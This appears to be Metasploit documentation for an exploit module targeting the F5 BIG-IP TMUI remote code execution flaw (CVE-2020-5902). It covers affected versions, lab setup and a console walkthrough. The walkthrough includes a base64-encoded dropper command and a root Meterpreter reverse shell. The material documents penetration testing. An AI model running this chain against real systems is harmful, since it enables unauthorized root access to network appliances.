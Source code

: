 ## Vulnerable Application

### Description

This module exploits a directory traversal in F5's BIG-IP Traffic
Management User Interface (TMUI) to upload a shell script and execute
it as the Unix root user.

Unix shell access is obtained by escaping the restricted Traffic
Management Shell (TMSH). The escape may not be reliable, and you may
have to run the exploit multiple times. Sorry!

Versions 11.6.1-11.6.5, 12.1.0-12.1.5, 13.1.0-13.1.3, 14.1.0-14.1.2,
15.0.0, and 15.1.0 are known to be vulnerable. Fixes were introduced
in 11.6.5.2, 12.1.5.2, 13.1.3.4, 14.1.2.6, and 15.1.0.4.

Tested against the VMware OVA release of 14.1.2.

### Setup

Download
[BIGIP-14.1.2-0.0.37.ALL-scsi.ova](https://downloads.f5.com/esd/serveDownload.jsp?path=/big-ip/big-ip_v14.x/14.1.2/english/virtual-edition/&sw=BIG-IP&pro=big-ip_v14.x&ver=14.1.2&container=Virtual-Edition&file=BIGIP-14.1.2-0.0.37.ALL-scsi.ova)
and import it into your desired virtualization software.

You _may_ need to log in to the management interface as the `admin` user
to complete system initialization and make the target exploitable. The
default password for the `admin` user is `admin`.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Options

### WritableDir

Set this to a writable directory in which files will be dropped.
Defaults to `/tmp`.

## Scenarios

### F5 BIG-IP 14.1.2 in VMware Fusion

```
msf5 > use exploit/linux/http/f5_bigip_tmui_rce_cve_2020_5902
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/f5_bigip_tmui_rce_cve_2020_5902) > options

Module options (exploit/linux/http/f5_bigip_tmui_rce_cve_2020_5902):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf5 exploit(linux/http/f5_bigip_tmui_rce_cve_2020_5902) > set rhosts 172.16.249.179
rhosts => 172.16.249.179
msf5 exploit(linux/http/f5_bigip_tmui_rce_cve_2020_5902) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(linux/http/f5_bigip_tmui_rce_cve_2020_5902) > run

[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target is running BIG-IP 14.1.2.
[*] Creating alias list=bash
[-] Alias "list" already exists, deleting it
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash
[*] Creating alias list=bash
[+] Successfully created alias list=bash
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwQ+QFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/wCkkU.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/whuIi' < '/tmp/wCkkU.b64' ; chmod +x '/tmp/whuIi' ; '/tmp/whuIi' ; rm -f '/tmp/whuIi' ; rm -f '/tmp/wCkkU.b64'"]
[*] Executing command: echo -n f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAA+gAAAAAAAAB8AQAAAAAAAAAQAAAAAAAASDH/aglYmbYQSInWTTHJaiJBWrIHDwVIhcB4UWoKQVlQailYmWoCX2oBXg8FSIXAeDtIl0i5AgARXKwQ+QFRSInmahBaaipYDwVZSIXAeSVJ/8l0GFdqI1hqAGoFSInnSDH2DwVZWV9IhcB5x2o8WGoBXw8FXmp+Wg8FSIXAeO3/5g==>>'/tmp/wCkkU.b64' ; ((which base64 >&2 && base64 -d -) || (which base64 >&2 && base64 --decode -) || (which openssl >&2 && openssl enc -d -A -base64 -in /dev/stdin) || (which python >&2 && python -c 'import sys, base64; print base64.standard_b64decode(sys.stdin.read());') || (which perl >&2 && perl -MMIME::Base64 -ne 'print decode_base64($_)')) 2> /dev/null > '/tmp/whuIi' < '/tmp/wCkkU.b64' ; chmod +x '/tmp/whuIi' ; '/tmp/whuIi' ; rm -f '/tmp/whuIi' ; rm -f '/tmp/wCkkU.b64'
[*] Uploading /tmp/WuyGIfbP
[+] Successfully uploaded /tmp/WuyGIfbP
[*] Executing /tmp/WuyGIfbP
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 172.16.249.179
[*] Meterpreter session 1 opened (172.16.249.1:4444 -> 172.16.249.179:55118) at 2020-07-17 06:06:38 -0500
[+] Deleted /tmp/WuyGIfbP
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash

meterpreter > getuid
Server username: no-user @ localhost.localdomain (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 7.3.1611 (Linux 3.10.0-514.26.2.el7.ve.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
